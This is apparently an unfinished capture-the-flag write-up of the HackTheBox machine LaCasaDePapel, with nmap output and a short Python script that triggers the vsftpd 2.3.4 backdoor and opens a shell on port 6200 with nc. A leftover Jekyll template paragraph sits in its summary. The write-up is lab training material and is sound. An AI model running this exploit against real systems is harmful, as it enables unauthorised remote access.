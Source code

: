 ```yaml
---
layout: post
title: "HTB - LaCasaDePapel"
author: "mrs3c"
categories: Blog
tags: [hackthebox, htb, pen-testing, certificates, cronjob, nodejs, openssl, otp, php, psysh, ssh rsa auth, ssh, vsftpd]
image: lacasa_logo.png
---
```


To fill in later

# HTB retired machines - LaCasaDePapel

## Summary

[Getting Started]({{ site.github.url }}{% post_url 2016-10-10-getting-started %}): getting started with installing Millennial, whether you are completely new to using Jekyll, or simply just migrating to a new Jekyll theme.

##1. discovery - network service scanning - nmap

```bash
# Nmap 7.80 scan initiated Sun Dec  8 21:59:21 2019 as: nmap -sC -sV -Pn -oA nmap/lacasadepapel 10.10.10.131
Nmap scan report for 10.10.10.131
Host is up (0.42s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.3.4
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp  open  http     Node.js (Express middleware)
|_http-title: La Casa De Papel
443/tcp open  ssl/http Node.js Express framework
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: La Casa De Papel
| ssl-cert: Subject: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Not valid before: 2019-01-27T08:35:30
|_Not valid after:  2029-01-24T08:35:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|   http/1.1
|_  http/1.0
Service Info: OS: Unix
```

##2. discovery - files and directories - http

 2.1 Navigating to port 80 we find a page which needs an OTP supplied by a QRCode. The page asks us to install Google Authenticator
![htb-lacasadepapel-2-http](https://mrjak3.github.io/assets/img/htb-lacasadepapel-2-http.png)

 2.2 Scanning the code using Google Authenticator on an Android phone gives us a code but it refuses to work either way. So, maybe its for internal users only. Lets keep this aside and come back later.

##3. discovery - files and directories - https

 3.1 Browsing to HTTPS shows us an error that we need a client certificate to continue which we don't possess at the moment
![htb-lascasadepapel-3.0-https](https://mrjak3.github.io/assets/img/htb-lascasadepapel-3.0-https.png)

##4. initial access - exploit public facing application - vsftp

 4.1 As seen from nmap, vsftp is version 2.3.4. A quick search allows the attacker to discover that the version was backdoored. Lets try to replicate the exploit code.

 4.2 The code just tries a failed login, which triggers the backdoor on port 6200 and then executes commands from it. Lets do that using a small python script:

```bash
import socket
import os
import time

def exploit(ip, port):
    sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((ip, port))

    sock.send('USER :)\n')
    sock.send('PASS HTBPASS\n')
    time.sleep(2)
    sock.close()

    os.system("rlwrap nc 10.10.10.131 6200 -v")

exploit("10.10.10.131", 21)
```

 4.3 The code is pretty simple, it just creates a connection to the FTP port, sends in commands and then quiclky connects to the backdoored port at 6200.
 4.4 Running the script:
 ![htb-lascasadepapel-4.4-vsftp](https://mrjak3.github.io/assets/img/htb-lascasadepapel-4.4-vsftp.png)
